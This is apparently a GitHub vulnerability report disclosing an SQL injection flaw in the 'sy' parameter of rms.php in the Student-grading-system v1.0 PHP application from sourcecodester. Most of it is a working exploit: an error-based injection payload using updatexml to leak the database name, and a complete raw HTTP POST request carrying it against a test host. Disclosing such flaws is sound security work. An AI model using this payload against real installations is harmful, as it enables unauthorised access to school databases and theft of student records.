 ## Student-grading-system v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/14522/student-grading-system-using-phpmysql-source-code.html

Vulnerability File: /student-grading-system/rms.php?page=school_year

Vulnerability location: /student-grading-system/rms.php?page=school_year,sy

[+] Pyaload: id=4&sy=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&status=%E4%B8%8D

```sql
POST /student-grading-system/rms.php?page=school_year HTTP/1.1
Host: 192.168.1.19
Content-Length: 71
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.19
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.19/student-grading-system/rms.php?page=school_year
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lpvr00hu9v7v4dvs4atvc5gdg6
Connection: close

id=4&sy=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&status=%E4%B8%8D
```

![image](https://user-images.githubusercontent.com/54017627/160225728-fe2e7d0d-6c28-4627-9bcc-c4f8af9c6afe.png)

